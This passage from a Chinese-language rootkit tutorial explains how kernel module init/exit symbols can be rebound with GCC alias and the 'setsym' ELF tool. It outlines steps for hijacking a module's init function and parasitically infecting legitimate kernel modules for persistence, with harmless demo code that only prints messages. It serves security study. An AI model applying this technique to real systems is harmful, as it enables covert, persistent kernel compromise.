 {% highlight c %}
/* Each module must use one module_init(). */
#define module_init(initfn)					\
	static inline initcall_t __inittest(void)		\
	{ return initfn; }					\
	int init_module(void) __attribute__((alias(#initfn)));

/* This is only required if you want to be unloadable. */
#define module_exit(exitfn)					\
	static inline exitcall_t __exittest(void)		\
	{ return exitfn; }					\
	void cleanup_module(void) __attribute__((alias(#exitfn)));
{% endhighlight %}

上面的`alias`是 GCC 的拓展功能，给函数起别名并关联起来。所以最终被使用的还是`init_module/cleanup_module`这两个名字。

**预备二**

我们需要一个能够修改`ELF`文件符号表及链接的小工具`setsym`，它是由 novice 师傅根据`ELF`文件格式制作的。源码在[这里](https://github.com/NoviceLive/research-rootkit/tree/master/3-persistence/elf)

编译安装：

```
make
sudo make install
```

用法：

```
# 查看某个符号的值：
setsym <module_path> <symbol_name>
# 修改某个符号的值：
setsym <module_path> <symbol_name> <symbol_value>
```

**下面开始 dirty your hand !!**

我们的实验分为两步走：

1. 在同一模块中进行符号表修改
2. 模块寄生：修改合法内核模块符号表并注入带代码实现持久感染

**第一步**

首先编译生成一个简单模块：

{% highlight c %}
// noinj.c
static int lkm_init(void)
{
    printk("noinj: module loaded\n");
    return 0;
}
static void lkm_exit(void)
{
    printk("noinj: module removed\n");
    return;
}

module_init(lkm_init);
module_exit(lkm_exit);

int fake_init(void)
{
    lkm_init();
    printk("^_^ noinj init invoked\n");
    return 0;
}
int fake_exit(void)
{